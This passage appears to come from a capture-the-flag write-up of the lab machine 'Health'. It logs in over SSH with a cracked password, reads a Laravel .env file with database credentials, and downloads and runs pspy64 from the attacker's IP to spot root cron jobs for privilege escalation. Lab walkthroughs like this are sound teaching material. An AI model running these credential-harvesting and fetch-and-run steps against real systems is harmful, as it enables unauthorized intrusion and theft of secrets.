Test to login with cracked credentials and grab user.txt
```bash
➜  health ssh susanne@health.htb
susanne@health.htb password: february15

susanne@health:~$ id && cat user.txt
uid=1000(susanne) gid=1000(susanne) groups=1000(susanne)
a47815867df7df685c95bd170197d921
```

-------
# Root
### Step 1
As always, start with `sudo -l` to look for a easy privesc vector.
```bash
susanne@health:~$ sudo -l
[sudo] password for susanne: 
Sorry, user susanne may not run sudo on health.
```

No dice. Do some manual enumeration and look for anything interesting in `~`, `/opt`, `/var/log`, `/var/www/`, `/tmp`, `/dev/shm` or `/`
```bash
susanne@health:/var/www/html$ cat .env
[... snip ...]
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```

There doesn't seem to be the case of password reuse, it might be a good idea to dump the database to find more hashes to crack but I think that's to easy. Instead continue enumerating with pspy64 and/or linPEAS. 

Every minute we see the same set of tasks:
```bash
susanne@health:/dev/shm$ wget http://10.10.14.20/pspy64
susanne@health:/dev/shm$ chmod +x pspy64
susanne@health:/dev/shm$ ./pspy64
[... snip ...]
2022/08/24 08:50:01 CMD: UID=0    PID=24085  | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1
2022/08/24 08:50:01 CMD: UID=0    PID=24085  | /usr/sbin/CRON -f 
2022/08/24 08:50:01 CMD: UID=0    PID=24084  | /bin/bash -c sleep 5 && /root/meta/clean.sh 
2022/08/24 08:50:01 CMD: UID=0    PID=24087  | php artisan schedule:run 
2022/08/24 08:50:01 CMD: UID=0    PID=24086  | sleep 5 
2022/08/24 08:50:01 CMD: UID=0    PID=24090  | grep columns 
2022/08/24 08:50:01 CMD: UID=0    PID=24091  | sh -c stty -a | grep columns 
2022/08/24 08:50:06 CMD: UID=0    PID=24094  | mysql laravel --execute TRUNCATE tasks
```
